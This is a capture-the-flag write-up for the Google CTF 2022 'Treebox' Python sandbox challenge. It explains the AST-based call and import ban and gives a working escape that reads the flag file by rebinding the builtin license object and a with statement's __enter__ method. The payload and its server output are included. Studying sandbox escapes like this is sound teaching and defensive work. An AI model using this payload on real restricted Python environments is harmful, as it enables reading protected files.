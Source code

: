 # Treebox
> I think I finally got Python sandboxing right.
>
> treebox.2022.ctfcompetition.com 1337

From the description, we know this is a Python sandbox challenge.
Connecting to the server gives us:
```
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
```
The proof of work is disabled, so we don't need to worry about that for this challenge. Below,
we can send Python code and end that code with `--END`.
However, trying to some test code,
```python
print(1)
--END
```
gives us
```
ERROR: Banned statement <ast.Call object at 0x7f55d45b31f0>
```

## Source Code
After downloading and extracting the zip, we get a single python file: `treebox.py`
```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

It seems `print(f"ERROR: Banned statement {x}")` was what was printing out the 
error we saw earlier. Going through the entire file, we can see that it reads
Python code line by line, compiles the code into an AST, performs some verification function,
then finally executes the code if the function passes.

From before, we know our `print(1)` does not pass the verification, so let's try 
and figure out exactly how the code works. First, we need to talk about AST.

## AST
ASTs, or Abstract Syntax Trees, are a tree representation of the code in a program.
They act like normal trees, except each node contains some instruction that would 
be executed. However, ASTs are abstract; they are not a true representation of 
what will actually be run by the program. For more information, check out their
[Wikipedia page.](https://en.wikipedia.org/wiki/Abstract_syntax_tree)

For Python, the `ast` module helps create and process these trees
programmatically. This line <br>
`tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)`<br>
compiles all the code we have submitted into a single tree that is passed into
the verification function.
```python
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
```
Taking a look at the `ast` module [documentation](https://docs.python.org/3/library/ast.html),
we see that `ast.walk(m)` yields every node in the tree, so `x` would be a single
node of that tree. `type(x)` is then matched against 3 different types, `ast.Import`,
`ast.ImportFrom`, and `ast.Call`. 

Looking at the documentation again, we can see that
`ast.Import` and `ast.ImportFrom` both deal with importing modules, while `ast.Call`
matches **ANY** function call. This is why our previous code `print(1)` errors out,
as `print()` is a function that is called in the code.

In the code, we also see `# Flag is in a file called "flag" in cwd.` meaning we need to 
somehow read a file without calling any functions.

### Function calls
Remember, an AST isn't a 1-to-1 copy of what will happen when the code is executed.
It compiles based on the code supplied. This means that automatic function calls 
are not considered as `ast.Call`. For example, the `__add__` dunder function, when
defined, is not considered a call to a function, even if it might actually
represent one.
```python
def __add__(self, other):
    # do something
    return
... # a and b are objects that use this add dunder
a + b # does not result in ast.Call when parsed in ast.walk
```
As long as the AST does not see the code as a function call, we can pretty much 
do whatever we want. 

## My solution
My solution is partly based off the solution to [`paas-v2` from HSCTF 9](https://github.com/hsncsclub/hsctf-9-challenges/tree/main/misc/paas-v2). That solution manipulates the builtin license 
to read from an arbitrary file. I won't go over it too much in detail as I will just 
explain it with the rest of my solution.
```python
__builtins__.license._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.license
a.__class__.__exit__ = lambda self, *args: None
with a as b:
	pass
```
The first line sets the `_Printer__filenames` attribute of the builtin `license`
to `flag`, the name of the file we are trying to read. This makes it so that when
the `license()` function is called, the file that is read is `flag`, instead of 
the text file that it normally reads from.

Then, we set a variable to some object whose class attributes can be edited.
I used the builtin help, but as long as you can set a usable dunder function, any
object is okay. 

Before moving on the the next 2 lines, let's go over the last `with` statement first.
In Python, when a `with` statement is called, the `__enter__` method is used to 
assign a value to the other variable, while the `__exit__` method handles what
happens after exiting the `with` statement.
```python
with a as b:
    pass
# essentially
b = a.__enter__()
# do smth with b
a.__exit__()
```
Therefore, we can directly assign the `__enter__` and `__exit__` methods
of the class of the variable we just used. The `__enter__` method is set to the 
builtin license method, so that when the `__enter__` method is called, the license
method is called instead, which will print the contents of the file it is reading,
in this case printing the flag.

Running this code on the server gives our flag:
```python
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
__builtins__.license._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.license
a.__class__.__exit__ = lambda self, *args: None
with a as b:
        pass
        
--END
-- Executing safe code:
CTF{CzeresniaTopolaForsycja}
```
and we have our flag: `CTF{CzeresniaTopolaForsycja}`

## Other solutions
There where many **many** other solutions to this challenge, in fact that was one
aspect I really enjoyed about it. Many of them are completely different from my 
solution, so I suggest you check them out as well to learn more. In fact, before
looking at the other solutions, I was not even aware of many of the capabilites
of function decorators.

## Takeaways
- ASTs and the Python ast module
- Python's builtin methods/classes
- Different types of dunder methods
- Function decorators (not in my solution)
- Metaclasses (again not in my solution)